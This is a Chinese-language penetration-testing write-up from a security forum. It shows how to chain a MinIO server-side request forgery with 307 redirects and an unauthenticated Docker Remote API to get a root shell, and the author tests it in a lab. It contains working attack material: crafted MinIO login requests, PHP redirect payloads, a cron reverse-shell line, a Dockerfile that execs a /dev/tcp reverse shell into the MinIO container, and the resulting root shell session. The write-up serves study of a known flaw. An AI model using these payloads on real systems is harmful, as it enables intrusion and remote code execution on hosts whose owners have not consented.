




# 307 跳转 getshell-先知社区

> **来源**: https://xz.aliyun.com/news/16772  
> **文章ID**: 16772

---

# 307 跳转 getshell

## 前言

没事网上乱翻阅，看到了 p 神的一个文章，通过 307 去 getshell，说实话，真的是觉得思路很妙，特别是利用的过程，这里属实是学习了。怎么说心里面的感觉呢，就是关关难过，但是关关过  
前面是用的靶场环境，然后因为一直要开启的原因，后面自己搭建了一个

## 环境搭建

首先开启 docker 的 api

下面会讲的，就不说了

首先我们可以自己搭建环境，需要开启 docker 的 api 接口  
然后安装 minio

```
version: '3.7'
services:
  minio1:
    image: minio/minio:RELEASE.2021-01-16T02-19-44Z
    volumes:
      - data1-1:/data1
      - data1-2:/data2
    ports:
      - "9000:9000"
    environment:
      MINIO_ACCESS_KEY: minio
      MINIO_SECRET_KEY: minio123
    command: server http://minio{1...4}/data{1...2}
    healthcheck:
      test: ["CMD", "curl", "-f", "http://localhost:9000/minio/health/live"]
      interval: 30s
      timeout: 20s
      retries: 3

## By default this config uses default local driver,
## For custom volumes replace with volume driver configuration.
volumes:
  data1-1:
  data1-2:
```

```
root@VM-16-17-ubuntu:~# docker-compose -f docker-compose.yml up -d
Creating network "root_default" with the default driver
Creating volume "root_data1-1" with default driver
Creating volume "root_data1-2" with default driver
Pulling minio1 (minio/minio:RELEASE.2021-01-16T02-19-44Z)...
RELEASE.2021-01-16T02-19-44Z: Pulling from minio/minio
a6b97b4963f5: Downloading [=========>                                         ]  7.768MB/39.38MB
13948a011eec: Download complete
a6b97b4963f5: Downloading [==============>                                    ]  11.04MB/39.38MB
a6b97b4963f5: Downloading [===================>                               ]  15.54MB/39.38MB
a6b97b4963f5: Pull complete
13948a011eec: Pull complete
b27f7b93c977: Pull complete
527a35f50a95: Pull complete
bae74d83b250: Pull complete
0f5c2801c42c: Pull complete
23c30f3146bf: Pull complete
Digest: sha256:a176d2194523a587f4103bce5e8d408e7aadc737e7e67067ca9c195a2b69fbe4
Status: Downloaded newer image for minio/minio:RELEASE.2021-01-16T02-19-44Z
Creating root_minio1_1 ... done
```

然后访问一手  
  
出现这个界面就是搭建成功了

或者在线的靶场也是 ok 的，比如 vulfocus

## 漏洞描述

MinIO 是在 Apache License v2.0 下发布的高性能对象存储。在版本 RELEASE.2021-01-30T00-20-58Z 之前的 MinIO 中存在服务器端请求伪造漏洞。目标应用程序可能具有从 URL 导入数据、将数据发布到 URL 或以其他方式从可篡改的 URL 读取数据的功能。攻击者通过提供完全不同的 URL 或通过操纵 URL 的构建方式（路径遍历等）来修改对此功能的调用。在服务器端请求伪造 (SSRF) 攻击中，攻击者可以滥用服务器上的功能来读取或更新内部资源。

## 漏洞分析

这里就是一个 SSRF 漏洞，具体的分析  
参考  
<https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html>

```
// LoginSTS - STS user login handler.
func (web *webAPIHandlers) LoginSTS(r *http.Request, args *LoginSTSArgs, reply *LoginRep) error {
    ctx := newWebContext(r, args, "WebLoginSTS")

    v := url.Values{}
    v.Set("Action", webIdentity)
    v.Set("WebIdentityToken", args.Token)
    v.Set("Version", stsAPIVersion)

    scheme := "http"
    // ...

    u := &url.URL{
        Scheme: scheme,
        Host:   r.Host,
    }

    u.RawQuery = v.Encode()
    req, err := http.NewRequest(http.MethodPost, u.String(), nil)
    // ...
}
```

就从用户发送的 HTTP 头 Host 中获取到“自己的地址”，并将其作为 URL 的 Host 构造了新的 URL。

利用点在于 host 我们是可以控制的

## Docker API 未授权命令执行

先学点基础的知识，后面会利用

Docker Swarm 是 Docker 的集群管理工具，它将 Docker 主机池转变为单个虚拟 Docker 主机，能够方便的进行 docker 集群的管理和扩展。Docker Swarm 使用标准的 Docker API 通过 2375 端口来管理每个 Docker 节点，Docker API 是一个取代远程命令行界面(RCLI)的 REST API。当 Docker 节点的 2375 端口直接暴露并未做权限检查时，存在未授权访问漏洞，攻击者可以利用 Docker API 执行任何操作，包括执行 Docker 命令，创建、删除 Docker 以及获得宿主机权限等。

首先配置一个环境

```
root@VM-16-17-ubuntu:~# dockerd -H unix:///var/run/docker.sock -H 0.0.0.0:2375
INFO[2024-12-25T20:34:49.073578881+08:00] Starting up                                  
WARN[2024-12-25T20:34:49.075741472+08:00] Binding to IP address without --tlsverify is insecure and gives root access on this machine to everyone who has access to your network.  host="tcp://0.0.0.0:2375"
WARN[2024-12-25T20:34:49.075766317+08:00] Binding to an IP address, even on localhost, can also give access to scripts run in a browser. Be safe out there!  host="tcp://0.0.0.0:2375"
WARN[2024-12-25T20:34:50.075954092+08:00] Binding to an IP address without --tlsverify is deprecated. Startup is intentionally being slowed down to show this message  host="tcp://0.0.0.0:2375"
WARN[2024-12-25T20:34:50.076011458+08:00] Please consider generating tls certificates with client validation to prevent exposing unauthenticated root access to your network  host="tcp://0.0.0.0:2375"
WARN[2024-12-25T20:34:50.076024149+08:00] You can override this by explicitly specifying '--tls=false' or '--tlsverify=false'  host="tcp://0.0.0.0:2375"
WARN[2024-12-25T20:34:50.076030980+08:00] Support for listening on TCP without authentication or explicit intent to run without authentication will be removed in the next release  host="tcp://0.0.0.0:2375"
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && wget http://$IP:2375INFO[2024-12-25T20:35:05.087655327+08:00] detected 127.0.0.53 nameserver, assuming systemd-resolved, so using resolv.conf: /run/systemd/resolve/resolv.conf 
INFO[2024-12-25T20:35:05.199543224+08:00] [graphdriver] using prior storage driver: overlay2 
INFO[2024-12-25T20:35:05.328830396+08:00] Loading containers: start.                   
INFO[2024-12-25T20:35:05.825413016+08:00] Default bridge (docker0) is assigned with an IP address 172.17.0.0/16. Daemon option --bip can be used to set a preferred IP address 
INFO[2024-12-25T20:35:05.865879641+08:00] Loading containers: done.                    
WARN[2024-12-25T20:35:06.090210537+08:00] WARNING: API is accessible on http://0.0.0.0:2375 without encryption
```

一堆报错不重要

如何验证是否开启呢

```
root@VM-16-17-ubuntu:~# IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && wget http://$IP:2375
--2024-12-25 20:35:06--  http://127.0.1.1:2375/
Connecting to 127.0.1.1:2375... connected.
HTTP request sent, awaiting response... 404 Not Found
2024-12-25 20:35:06 ERROR 404: Not Found.
```

代表成功

然后我们就可以随便运行 docker 命令了

如何 getshell 可以参考

<https://wiki.teamssix.com/cloudnative/docker/docker-remote-api-unauth-escape.html>

新运行一个容器，挂载点设置为服务器的根目录挂载至/mnt 目录下。

```
docker -H tcp://10.1.1.211:2375 run -it -v /:/mnt nginx:latest /bin/bash
```

在容器内执行命令，将反弹 shell 的脚本写入到/var/spool/cron/root

```
echo '* * * * * /bin/bash -i >& /dev/tcp/10.1.1.214/12345 0>&1' >> /mnt/var/spool/cron/crontabs/root
```

本地监听端口，获取对方宿主机 shell。

## 漏洞利用

### 探测端口

首先这个漏洞是没有回显的，简单探测端口  
访问界面  


就是一个简单的登录界面，我们随便抓一个包，然后修改包如下

```
POST /minio/webrpc HTTP/1.1
Host: ip:2333
Content-Length: 90
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Type: application/json
x-amz-date: 20241225T101300Z
Accept: */*
Origin: http://123.58.224.8:8679
Referer: http://123.58.224.8:8679/minio/login
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"id":1,"jsonrpc":"2.0","params":{"token":     "test"},"method":"web.LoginSTS"}
```

在服务器上监听

```
root@VM-16-17-ubuntu:~# ncat -lvp 2333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
```

发送请求包后

```
root@VM-16-17-ubuntu:~# ncat -lvp 2333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
Ncat: Connection from 123.58.224.7.
Ncat: Connection from 123.58.224.7:34164.
POST /?Action=AssumeRoleWithWebIdentity&Version=2011-06-15&WebIdentityToken=test HTTP/1.1
Host: ip:2333
User-Agent: Go-http-client/1.1
Content-Length: 0

```

但是只是扫描一个端口就很鸡肋

### 发送 get 请求

如何扩大利用范围呢？  
我们都知道很多的利用都需要我们传入参数，而 302 跳转给了我们 ssrf 很多的利用空间，我们通过 302 跳转可以传入我们需要的 get 请求的参数

原理就是  
Go 默认的 http 库会跟踪 302 跳转，而且不论是 GET 还是 POST 请求  
这里我们写一个 302 跳转的 php 代码

```
root@VM-16-17-ubuntu:/var/www/html# cat 1.php
<?php
header('Location: http://ip:2333/test?aaa=bbb');
```

然后一样监听 2333 端口

```
root@VM-16-17-ubuntu:~# ncat -lvp 2333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333

```

然后我们访问我们的文件

但是这里就出现了一个问题，就是我们 host 没有办法指定我们的文件，这里就利用了一个基础的  
默认访问 index.php，那我们直接保存为 index

我们可以尝试一下访问

  
可以看到跳转了，我们尝试一下在服务器上能不能

需要改一下 index

```
root@VM-16-17-ubuntu:/var/www/html# cat index.php
<?php
header('Location: http://ip:2334/test?aaa=bbb');
```

然后监听 2334，不然 2333 重复了

发送如下请求

```
POST /minio/webrpc HTTP/1.1
Host: ip
Content-Length: 79
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Type: application/json
x-amz-date: 20241225T130725Z
Accept: */*
Origin: http://123.58.224.8:55201
Referer: http://123.58.224.8:55201/minio/login
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive

{"id":1,"jsonrpc":"2.0","params":{"token":     "test"},"method":"web.LoginSTS"}
```

收到响应

```
root@VM-16-17-ubuntu:~# ncat -lvp 2334
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2334
Ncat: Listening on 0.0.0.0:2334
Ncat: Connection from 123.58.224.7.
Ncat: Connection from 123.58.224.7:40724.
GET /test?aaa=bbb HTTP/1.1
Host: ip:2334
User-Agent: Go-http-client/1.1
Referer: http://ip?Action=AssumeRoleWithWebIdentity&Version=2011-06-15&WebIdentityToken=test
```

可以看到已经是一个 Get 请求了，而且路径和参数可以随意指定

### 307 跳转

但是我们可以看到如果想要未授权恶意的利用，至少需要运行 docker 命令吧，但是我们可以看看发的包

虽然我们一开始就是一个 post 请求，但是参数和路径都规定了，不能修改  
这时候用到了 307 跳转

我们看到 p 神的描述

The 307 (Temporary Redirect) status code indicates that the target resource resides temporarily under a different URI and the user agent MUST NOT change the request method if it performs an automatic redirection to that URI.

307 跳转的特点就是不会改变原始请求的方法，也就是说，在服务端返回 307 状态码的情况下，客户端会按照 Location 指向的地址发送一个相同方法的请求。

我们来尝试一下

修改之前的代码

```
<?php
header('Location: http://ip/attack?arbitrary=params', false, 307);
```

然后再次尝试一样的操作

```
root@VM-16-17-ubuntu:~# ncat -lvp 2333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
Ncat: Connection from ip.
Ncat: Connection from ip:42584.
POST /attack?arbitrary=params HTTP/1.1
Host: ip:2333
User-Agent: Go-http-client/1.1
Content-Length: 0
Referer: http://ip?Action=AssumeRoleWithWebIdentity&Version=2011-06-15&WebIdentityToken=test
```

可以看到已经成功了 post 请求

但是 post 是 post，参数也是能传入的，但是 post 请求我们没有办法控制 body，然后伟大的 p 神找到了好东西

### get 请求创建 docker

<https://docs.docker.com/reference/api/engine/version/v1.41/#operation/ImageBuild>



这个参数可以传入一个 Git 地址或者一个 HTTP URL，内容是一个 Dockerfile 或者一个包含了 Dockerfile 的 Git 项目或者一个压缩包。

怎么说，属实是精彩，这样解决了我们必须要输入 json 的 body 创建镜像的难题

首先写一个能够反弹 shell 的镜像

```
FROM alpine:3.13

RUN apk add curl bash jq

RUN set -ex && \
{ \
    echo '#!/bin/bash'; \
    echo 'set -ex'; \
    echo 'target="http://漏洞ip:2375"'; \
    echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
    echo 'for item in ${jsons[@]}; do'; \
    echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
    echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
    echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
    echo '        break'; \
    echo '    fi'; \
    echo 'done'; \
    echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/攻击者/2333 0>&1"]}" | jq -r ".Id")'; \
    echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
} | bash
```

然后我们修改一下我们的 index 文件

```
<?php
header('Location: http://ip:2375/build?remote=http://ip/Dockerfile&nocache=true&t=evil:1', false, 307);
```

### 反弹 shell

然后我这是等了好一会才反弹 shell 的  
估计是因为一直在拉起镜像的原因

```
root@VM-16-17-ubuntu:~# ncat -lvp 2333
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2333
Ncat: Listening on 0.0.0.0:2333
Ncat: Connection from ip.
Ncat: Connection from ip:37342.
bash: cannot set terminal process group (314): Inappropriate ioctl for device
bash: no job control in this shell
[root@d66af5df8882 /]# ls
ls
bin
boot
data
data1
data2
dev
etc
home
lib
lib64
licenses
lost+found
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
[root@d66af5df8882 /]# whomi 
whomi
bash: whomi: command not found
[root@d66af5df8882 /]# whoami
whoami
root
```

## 最后

妙不可言，感觉从一个鸡肋的漏洞打到 getshell，属实是妙，虽然必须存在 docker 未授权，但是按照这个思路打其他的漏洞，估计也是有出路的
